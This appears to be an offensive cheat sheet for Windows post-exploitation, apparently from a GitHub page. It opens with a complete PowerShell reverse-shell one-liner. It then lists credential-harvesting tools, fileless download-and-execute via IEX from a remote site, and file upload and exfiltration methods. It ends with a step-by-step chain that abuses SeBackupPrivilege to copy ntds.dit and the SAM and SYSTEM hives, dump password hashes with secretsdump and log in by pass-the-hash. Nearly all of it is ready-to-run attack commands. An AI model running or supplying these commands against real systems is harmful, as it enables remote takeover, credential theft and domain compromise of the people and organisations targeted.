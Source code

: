### With PS

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('A.B.C.D',8443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## When connected

### Harvesting

 - `.\winPeas.ps1`
 - `LaZagne all`
 - `SharpUp audit`
 - `snaffler -s -o result.log -i C:`

### File upload

 - `[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("<BASE64 string>"))`
 - `(New-Object Net.WebClient).DownloadFile('https://site/xxxx','C:\Users\Public\Downloads\xxx')`
 - Fileless: `IEX (New-Object Net.WebClient).DownloadString('https://site/xxxx')`
 - SMB Share: `impacket-smbserver share -smb2support /tmp/smbshare -user test -password test`
 - Fake FTP: `python3 -m pyftpdlib --port 21`

### File Download / Exfiltrating
 
  - Encode file in b64: `[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))`
  - Upload server: `python3 -m uploadserver`

## When user has privs SeBackupPrivilege

```
whoami /priv
SeBackupPrivilege

$test="set verbose on `nset metadata C:\Windows\Temp\meta.cab `nset context clientaccessible `nset context persistent `nbegin backup `nadd volume C: alias cdrive `ncreate `nexpose %cdrive% E: `nend backup `n"
$test | Set-Content save.txt
diskshadow.Exe /s save.txt
robocopy /b E:\Windows\ntds . ntds.dit
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save
impacket-secretsdump -system system.save -sam sam.save -ntds ntds.dit local
Administrator:500:NT:LM:::
evil-winrm --hash LM -i 10.10.10.10 --user Administrator
```
 